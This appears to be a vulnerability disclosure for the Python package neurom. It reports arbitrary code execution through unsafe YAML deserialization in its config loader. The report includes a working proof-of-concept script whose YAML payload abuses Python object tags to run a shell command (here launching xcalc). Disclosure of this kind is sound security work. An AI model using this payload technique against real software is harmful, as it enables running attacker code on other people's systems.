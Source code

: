 # Description

`neurom` is a Neuronal Morphology Analysis Tool, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install neurom
```

### Run exploit.py
```
import os
#os.sysem('pip3 install neurom')
from neurom import apps
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
apps.get_config('config.yml','config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
